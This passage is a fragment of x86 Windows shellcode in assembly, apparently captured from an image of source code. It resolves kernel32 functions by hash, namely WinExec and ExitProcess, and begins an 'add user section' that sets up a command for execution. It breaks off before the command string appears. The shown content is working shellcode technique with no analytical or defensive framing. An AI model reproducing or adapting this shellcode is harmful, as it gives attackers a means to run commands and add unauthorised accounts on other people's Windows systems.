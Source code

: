 ```
    mov ebx, [edx + 0x24]
    add ebx, ebp
    mov cx, [ebx + 2 * ecx]
    mov ebx, [edx + 0x1c]
    add ebx, ebp
    mov eax, [ebx + 4 * ecx]
    add eax, ebp
    ;this is the VMA of the function
    mov [esp + 0x1c], eax
find_function_finished:
    popad
    ret
    
;END FUNCTION: find_function
;FUNCTION: resolve_symbols_for_dll
resolve_symbols_for_dll:
    ;about to load current hash into eax (pointed to by esi)
    lodsd
    push eax
    push edx
    call find_function
    mov [edi], eax
    add esp, 0x08
    add edi, 0x04
    cmp esi, ecx
    jne resolve_symbols_for_dll
resolve_symbols_for_dll_finished:
    ret
;END FUNCTION: resolve_symbols_for_dll
;DEFINE CONSTANTS
    
locate_hashes:
    call locate_hashes_return
    ;WinExec ;result hash = 0x98FE8A0E
    db 0x98
    db 0xFE
    db 0x8A
    db 0x0E
    ;ExitProcess ;result hash = 0x7ED8E273
    db 0x7E
    db 0xD8
    db 0xE2
    db 0x73
;END DEFINE CONSTANTS
start_asm: ; start our main program
    sub esp, 0x08 ; allocate space on stack for function addresses
    mov ebp, esp ; set ebp as frame ptr for relative offset on stack
    call find_kernel32 ;find address of Kernel32.dll
    mov edx, eax
    ;resolve kernel32 symbols
    jmp short locate_hashes ;locate address of our hashes
locate_hashes_return: ;define return label to return to this code
    pop esi ;get constants address from stack
    lea edi, [ebp + 0x04] ;this is where we store our function addresses
    mov ecx, esi
    add ecx, 0x08 ;length of dns shellcode hash list
    call resolve_symbols_for_dll
;add user section
    jmp short GetCommand
CommandReturn:
    pop ebx ;ebx now holds the handle to the string
    xor eax,eax ;empties out eax
    push eax ;push null onto stack as empty parameter value
```